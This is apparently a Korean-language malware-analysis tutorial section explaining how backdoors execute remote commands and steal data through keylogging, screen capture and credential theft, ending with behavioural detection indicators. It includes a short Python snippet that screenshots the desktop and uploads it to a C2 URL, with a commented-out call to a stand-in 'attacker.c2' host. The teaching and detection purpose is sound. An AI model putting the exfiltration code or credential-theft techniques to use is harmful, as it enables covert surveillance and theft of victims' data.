

# 70630.4 원격 명령 실행 및 정보 탈취 기능

백도어의 궁극적인 목적은 공격자가 감염된 시스템에서 임의의 동작을 수행하고 민감한 정보를 탈취하는 것입니다. 본 섹션에서는 백도어가 원격 명령을 실행하는 메커니즘과 주요 정보 탈취 기능을 분석합니다.

## 1. 원격 명령 실행 (Remote Command Execution)

C2로부터 수신한 명령어를 시스템에서 실행하기 위해 백도어는 다양한 API와 라이브러리를 사용합니다.



- **직접 실행**: `system()`, `exec()` 계열 함수를 사용하여 OS 쉘을 호출합니다.
- **간접 실행**: API를 통해 새로운 프로세스를 생성하거나, 현재 프로세스의 메모리에 코드를 삽입(Injection)하여 실행합니다.

## 2. 주요 정보 탈취 기능 (Data Exfiltration)

공격자가 주로 노리는 데이터와 탈취 방식은 다음과 같습니다.

### 2.1 키로깅 (Keylogging)
사용자의 키보드 입력을 가로채어 계정 정보나 기밀 내용을 탈취합니다.
- **기술**: `SetWindowsHookEx`, `GetAsyncKeyState` API 사용.

### 2.2 화면 캡처 (Screen Capture)
현재 바탕화면을 이미지 파일로 저장하여 공격자에게 전송합니다.
- **기술**: GDI(Graphics Device Interface) API 활용.

### 2.3 자격 증명 탈취 (Credential Theft)
브라우저에 저장된 비밀번호, 메신저 세션, 시스템 계정(LSASS 메모리 등) 정보를 훔칩니다.
- **기술**: `Mimikatz` 라이브러리 연동 혹은 브라우저 DB(SQLite) 직접 접근.

**[Python 실습: 간단한 스크린샷 캡처 및 전송 컨셉]**
```python
import pyautogui
import requests
import io

def capture_and_send(c2_url):
    # 화면 캡처
    screenshot = pyautogui.screenshot()
    
    # 메모리 내에서 바이트로 변환
    img_byte_arr = io.BytesIO()
    screenshot.save(img_byte_arr, format='PNG')
    img_byte_arr = img_byte_arr.getvalue()
    
    # C2 서버로 전송
    try:
        files = {'file': ('screen.png', img_byte_arr, 'image/png')}
        response = requests.post(c2_url, files=files)
        if response.status_code == 200:
            print("[+] Screenshot sent successfully.")
    except Exception as e:
        print(f"[-] Failed to send screenshot: {e}")

if __name__ == "__main__":
    # capture_and_send("http://attacker.c2/upload")
    pass
```

## 3. 파일 조작 및 전송

백도어는 파일 시스템에 대한 완전한 제어권을 가집니다.
- **Download**: C2 서버에서 추가 악성 도구나 업데이트 파일을 내려받습니다.
- **Upload**: 탈취한 데이터를 압축(ZIP, RAR)하거나 암호화하여 외부로 전송합니다.

## 4. 행위 기반 분석 포인트

정보 탈취 단계에서 발생하는 주요 행위 지표는 다음과 같습니다.

1.  **파일 접근**: 비정상적인 프로세스가 사용자의 문서 폴더, 브라우저 설정 폴더에 접근하는 행위.
2.  **API 호출 패턴**: `SetWindowsHookEx`와 같은 후킹 API의 빈번한 호출.
3.  **네트워크 트래픽 급증**: 대용량 파일 전송 시 발생하는 비정상적인 아웃바운드 트래픽.

## 5. 결론

원격 명령 실행과 정보 탈취는 백도어가 그 존재 가치를 증명하는 단계입니다. 최근에는 탐지를 피하기 위해 명령 실행 결과를 메모리 상에서만 처리하거나, 정상적인 클라우드 서비스(Google Drive, Slack 등)를 데이터 전송 채널로 악용하는 사례가 늘고 있어 이에 대한 세심한 모니터링이 필요합니다.
